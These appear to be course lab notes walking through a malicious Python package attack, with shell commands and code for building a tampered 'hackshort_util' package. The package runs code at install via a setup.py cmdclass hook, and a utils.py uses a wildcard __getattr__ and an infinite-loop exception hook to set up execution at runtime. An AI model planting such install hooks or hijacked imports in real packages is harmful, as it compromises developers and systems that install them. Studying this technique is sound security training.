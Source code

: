- **cmdclass** function added to **setup** function 
- **Installer** class accepts variable that will be passed in by _setuptools_
- Lines 7-8 prove that we have command execution

Build new package
```
kali@kali:~/hackshort-util$ python3 ./setup.py sdist                      
```

Installing the New Package and Checking if Custom Code Executed
```hlt:1,5
kali@kali:~/hackshort-util$ pip install ./dist/hackshort_util-1.1.4.tar.gz
...

kali@kali:~/hackshort-util$ cat /tmp/running_during_install           
This code was executed when the package was installed   
```

We have code execution at install. Leaving reverse shell as independent exercise. 

Moving on to RCE at runtime. 

### Command Execution During Runtime
Need to know how developers use package. 
App imports _utils_ submodule from _hackshort_util_ 
```
from hackshort_util import utils
```

- Need to create **utils.py** file in **hackshort_util** directory or Python will error out. 
- Create wildcard function that will execute regardless of name
- Create  [_exception hook_](https://docs.python.org/3/library/sys.html#sys.excepthook) to catch exception app throws 

Creating utils.py File with Exception Hook Function
```hlt:
kali@kali:~/hackshort-util$ nano hackshort_util/utils.py
                                                                                                        
kali@kali:~/hackshort-util$ cat -n hackshort_util/utils.py
01  import time
02  import sys
03
04  def standardFunction():
05          pass
06
07  def __getattr__(name):
08          pass
09          return standardFunction
10
11  def catch_exception(exc_type, exc_value, tb):
12      while True:
13          time.sleep(1000)
14
15  sys.excepthook = catch_exception
```
